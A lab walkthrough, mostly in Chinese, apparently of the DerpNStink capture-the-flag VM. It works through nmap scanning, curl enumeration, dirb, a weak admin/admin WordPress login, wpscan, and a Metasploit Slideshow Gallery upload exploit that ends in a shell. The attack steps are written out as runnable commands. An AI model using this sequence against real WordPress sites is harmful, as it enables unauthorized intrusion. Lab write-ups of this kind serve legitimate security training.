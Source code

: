 1、nmap -sP 192.168.4.0/24
192.168.4.54

2、nmap 192.168.4.54
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

3、curl http://192.168.4.54/
<--flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166) -->

<script type="text/info" src="/webnotes/info.txt"></script>


4、curl http://192.168.4.54/webnotes/info.txt

<-- @stinky, make sure to update your hosts file with local dns so the new derpnstink blog can be reached before it goes live -->

<-- @stinky，确保使用本地 dns 更新您的主机文件，以便可以在新的 derpnstink 博客上线之前访问它 -->

意思是要我们更新本地的dns服务，才能访问博客！

5、写入本地hosts中

192.168.4.54 derpnstink.local


6、枚举网页：

dirb http://derpnstink.local/

http://derpnstink.local/weblog/wp-admin/

worepress站！

admin/admin 弱口令登录！

7、wpscan扫描worepress站
wpscan --url http://derpnstink.local/weblog/
WordPress version 4.6.22 identified

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register


8、AWVS扫描：
AWVS扫描：WordPress Plugin Slideshow Gallery (1.6.4)

msf利用：
msfconsole
search Slideshow Gallery
use exploit/unix/webapp/wp_slideshowgallery_upload
set rhosts 192.168.4.58
set targeturi /weblog
set wp_user admin
set wp_password admin
run

获得shell!
